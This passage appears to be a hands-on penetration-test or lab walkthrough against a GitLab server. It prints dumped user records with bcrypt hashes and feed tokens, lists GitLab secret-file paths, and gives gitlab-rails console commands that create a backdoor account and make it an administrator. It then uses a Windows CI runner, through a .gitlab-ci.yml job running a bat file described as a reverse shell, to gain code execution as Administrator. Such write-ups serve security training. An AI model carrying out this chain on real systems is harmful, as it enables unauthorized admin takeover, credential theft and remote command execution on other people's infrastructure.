 "last_credential_check_at"=>Wed, 20 Jan 2021 03:44:37 EST -05:00,
 "avatar"=>nil,
 "confirmation_token"=>nil,
 "confirmed_at"=>Wed, 19 Aug 2020 18:46:12 EST -05:00,
 "confirmation_sent_at"=>nil,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>false,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>"robert.martinez@inception.local",
 "hide_no_password"=>false,
 "password_automatically_set"=>true,
 "location"=>nil,
 "encrypted_otp_secret"=>nil,
 "encrypted_otp_secret_iv"=>nil,
 "encrypted_otp_secret_salt"=>nil,
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>nil,
 "external"=>false,
 "incoming_email_token"=>"79lxqym9qevgfi9onsvhnhd49",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>Wed, 20 Jan 2021,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>2,
 "accepted_term_id"=>nil,
 "feed_token"=>"sHQ4UHTwJDyePuFsMjzY",
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>nil,
 "otp_secret"=>nil,
 "bio"=>nil}
{"id"=>2,
 "email"=>"robert.lanza@cyber.local",
 "encrypted_password"=>
  "$2a$10$tph2qN6BU02vJfWO8wgsSOAGV5L9MpXSsidcerHOBNzzNbejj9RAC",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>1,
 "current_sign_in_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "last_sign_in_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "current_sign_in_ip"=>"10.9.40.5",
 "last_sign_in_ip"=>"10.9.40.5",
 "created_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "updated_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "name"=>"Robert Lanza",
 "admin"=>false,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>7,
 "locked_at"=>nil,
 "username"=>"Robert.Lanza",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
 "last_credential_check_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "avatar"=>nil,
 "confirmation_token"=>nil,
 "confirmed_at"=>Wed, 19 Aug 2020 18:41:34 EST -05:00,
 "confirmation_sent_at"=>nil,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>false,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>"robert.lanza@cyber.local",
 "hide_no_password"=>false,
 "password_automatically_set"=>true,
 "location"=>nil,
 "encrypted_otp_secret"=>nil,
 "encrypted_otp_secret_iv"=>nil,
 "encrypted_otp_secret_salt"=>nil,
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>nil,
 "external"=>false,
 "incoming_email_token"=>"2u0xelc22tjm2q9qmo4tvdo5s",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>Wed, 19 Aug 2020,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>2,
 "accepted_term_id"=>nil,
 "feed_token"=>"FNUqZKLLmcVDyKXzy8R7",
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>nil,
 "otp_secret"=>nil,
 "bio"=>nil}
If you have enough privileges, you can make an account under your control administrator by running: gitlab-rails runner 'user = User.find_by(email: "youruser@example.com"); user.admin = TRUE; user.save!'
```

Some other secrets worth to check:

```
/var/opt/gitlab/gitlab-rails/etc/database.yml
/var/opt/gitlab/gitlab-rails/etc/resque.yml
/var/opt/gitlab/gitlab-rails/etc/puma.rb
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
/var/opt/gitlab/gitlab-rails/etc/gitlab_workhorse_secret
/var/opt/gitlab/gitlab-rails/etc/gitlab_pages_secret
/var/opt/gitlab/gitlab-rails/etc/cable.yml
/var/opt/gitlab/gitlab-rails/etc/gitlab_shell_secret
/var/opt/gitlab/gitlab-rails/etc/gitlab.yml
/var/opt/gitlab/gitlab-rails/VERSION
```

And some more:

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root git 832 Aug 19  2020 /var/opt/gitlab/gitaly/config.toml
-rw-r----- 1 root git 998 Aug 19  2020 /var/opt/gitlab/gitlab-shell/config.yml
-rw-r----- 1 root git 71 Aug 19  2020 /var/opt/gitlab/gitlab-workhorse/config.toml
-rw-r----- 1 root git 562 Aug 19  2020 /var/opt/gitlab/gitlab-rails/etc/database.yml
-rw-r----- 1 root git 25292 Aug 19  2020 /var/opt/gitlab/gitlab-rails/etc/gitlab.yml
-rw-r----- 1 root git 25273 Aug 19  2020 /opt/gitlab/embedded/cookbooks/cache/backup/var/opt/gitlab/gitlab-rails/etc/gitlab.yml.chef-20200819184345.517757
-rw-r----- 1 root git 25023 Aug 19  2020 /opt/gitlab/embedded/cookbooks/cache/backup/var/opt/gitlab/gitlab-rails/etc/gitlab.yml.chef-20200819182846.413805
```

And some passwords?

```
══════════╣ Searching passwords inside logs (limit 70)
  Parameters: {"utf8"=>"✓", "authenticity_token"=>"[FILTERED]", "user"=>{"login"=>"yovecio", "password"=>"[FILTERED]", "remember_me"=>"0"}}
  Parameters: {"utf8"=>"✓", "authenticity_token"=>"[FILTERED]", "username"=>"robert.lanza", "password"=>"[FILTERED]"}
  Parameters: {"utf8"=>"✓", "authenticity_token"=>"[FILTERED]", "username"=>"robert.lanza@inception.local", "password"=>"[FILTERED]"}
Binary file /var/log/gitlab/puma/puma_stdout.log.10.gz matches
[    2.615311] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
[    3.032853] systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
[    3.033005] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
[    4.113542] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
```

Now I wonder if I can decrypt the robert.martinez password?

```
{"id"=>3,
 "email"=>"robert.martinez@inception.local",
 "encrypted_password"=>
  "$2a$10$IAiPb.ZlafDT5q9WQlpcZeJKevHfXLUBeSFL1BEk9xc508WzBFfiK",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
```

&nbsp;

EDIT: I was totally wrong, apparently since we had the API, we can use that to add a new local user with Admin permissions.

We can either do it externally via the CURL to the API with the private key, otherwise we can use the native commands

```
sudo gitlab-rails console
```

Asking Chat-GPT I got this code that can be used to save in the redis DB used by gitlab:

```
gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       13.2.6 (24266162d02) FOSS
 GitLab Shell: 13.3.0
 PostgreSQL:   11.7
--------------------------------------------------------------------------------
user = User.new(
  username: 'culo',
  email: 'culo@test.com',
  name: 'Culo Rotto',
  password: 'Coglione1!',
  password_confirmation: 'Coglione1!'
)
user.skip_confirmation!
user.save!

Loading production environment (Rails 6.0.3.1)
Switch to inspect mode.
user = User.new(
  username: 'culo',
  email: 'culo@test.com',
  name: 'Culo Rotto',
  password: 'Coglione1!',
  password_confirmation: 'Coglione1!'
)
#<User id: @culo>
user.skip_confirmation!
2024-06-28 09:25:28 UTC
user.save!
true

exit
```

Now I totally fortgot to make the user admin, we can do same by sending this:

```
gitlab-rails console
user = User.find_by(username: 'culo')
user.admin = true
user.save!
exit
```



Nice we got no complains, now we should be able to login as admins on the web system right?



I see other people's projects which might be a good sign:  


I see now an admin area, which might absolutely be on good steps:



I see several users:  


Now looking around I see some runners that points to a windows?



Might this be our way into the machine, to bypass the containerization system and get a foothold into windows?

Specifically this might help me?

https://gitlab.com/gitlab-org/gitlab-runner/-/issues/27191

If this is true then I added a malicous bat file that executes a revshell on the dummy repository:



Now I guess I need to assign it to my server?



&nbsp;

&nbsp;

Allowing the autodev option in my repository allows me to get a CI/CD pipeline:



But it is still stuck



Seems like it is not assigned? WTF so googling around seems the issue is related to the TAGS, my job need to match the same tags from the runner?



My job must have powershell and windows tags?

This might be true as the runner only runs tagged jobs:



Now I can either modify the runner and make it run the project without correct tags:



Or I can add those tags to my project dummy!  


And the Windows



And now can we see it kicks in, but it fails for some reasons:



But as you see it runs from the Administrator user?

&nbsp;

# Back to Basics

Something I totally missed is that these runners are running on behalf of the inwebjw machine with IP finishing by .12.

I will use some basic code from Gitlab wiki to pass the checks and apparenly I need to prepare the `.gitlab-ci.yml` this file will be used to invoke a pipeline!

Now our basic code is:

```
build-job:
  stage: build
  script:
    - echo "Hello, $GITLAB_USER_LOGIN!"

test-job1:
  stage: test
  script:
    - echo "This job tests something"

test-job2:
  stage: test
  script:
    - echo "This job tests something, but takes more time than test-job1."
    - echo "After the echo commands complete, it runs the sleep command for 20 seconds"
    - echo "which simulates a test that runs 20 seconds longer than test-job1"
    - sleep 20

deploy-prod:
  stage: deploy
  script:
    - echo "This job deploys something from the $CI_COMMIT_BRANCH branch."
  environment: production
```

What it does it pass the autobuild and executes an echo of our username:



Now we need to adapt this to execute some bat commands instead! Now I asked to chatgpt a job that would perform the task from my bat file:

```
stages:
  - build

build_job:
  stage: build
  tags:
    - windows
  script:
    - ./shell.bat
```

And this actually made it working?



If this is true then we might do same for RCE?  
